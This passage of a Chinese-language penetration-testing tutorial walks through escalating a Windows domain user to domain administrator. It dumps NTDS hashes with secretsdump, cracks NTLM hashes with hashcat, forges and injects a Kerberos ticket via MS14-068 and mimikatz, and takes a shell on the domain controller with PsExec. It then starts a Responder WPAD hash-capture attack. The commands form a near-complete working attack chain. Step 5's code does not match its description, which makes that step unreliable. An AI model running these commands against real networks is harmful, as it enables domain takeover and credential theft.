 ```
git clone https://github.com/SecureAuthCorp/impacket
./secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit -user-status loca
```

3\. 将内存中已有的 kerberos 票据清除，清除方法使用 mimikatz，或者 klist purge

4\. 使用 whoami /all 查看本机用户 suid

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmdiaLBZ7kugENXcOxk4PWXsWPpQqzFdsjpwibXwVvMmpmkHCYSkFhEPbg/640?wx_fmt=png)  

5\. 利用 ms14-068.exe 提权工具在当前目录生成伪造的 kerberos 协议认证证书  

```
hashcat -m 1000 a.hash -a 0 pass.txt --force --remove win2.hash
-m 1000 #破解密码类型为NTLM
-a 0 #采用字典破解
-o  #将破解后的结果输出到pass1.txt
--remove win2.hash #表示将移除破解成功的hash
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvma9ia23bCJB0RFhea4Ab5F3VY295tlYmHE1KfOsY9icg6ODoASuC77uwQ/640?wx_fmt=png)  

6\. 将证书文件复制到 mimikaz 同级目录下。写入证书，从而提升为域管理员

```
mimikatz.exe "kerberos::ptc TGT\_hh@safe-duck.com.ccache" exit
```

7\. 再次列出域控制器的 C 盘目录, 成功访问域控的 C 盘，说明普通域用户提权成功  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm1FtC12v3CdvYhNxo9M6c54IwjbWz0f7q7TbuoF6zlHF0oWVmV2CcNw/640?wx_fmt=png)  

8\. 使用 PsExec.exe 获取 shell，#psexec.exe 以管理员权限运行连接域控

```
PsExec.exe \\\\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmxn1POblAPxMpSD7EuhGuUVoQ9kgPTWhoBxWHher6hDaic8MTYo95zkA/640?wx_fmt=png)  

**七、Responder -WPAD 提权**
========================

```
Responder下载地址：https://github.com/lgandx/Responder
```

浏览器默认自动检测代理设置如下，当目标访问某个网站时，利用 kali 伪造代理主机，要求目标机器提供 hash，kali 抓取此 hash  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmgpQzQ79iaRichzd9Kc4WeMz91CbfqWjxelQ7cPjIMScTEOZdSUcsANPg/640?wx_fmt=png)

**1.kali 设置侦听**

```
responder -I eth0
#Responder会启动80端口，用之前关闭80服务
/etc/init.d/apache2 stop
```

目标在浏览器上访问任意网页，kali 获取到 hash
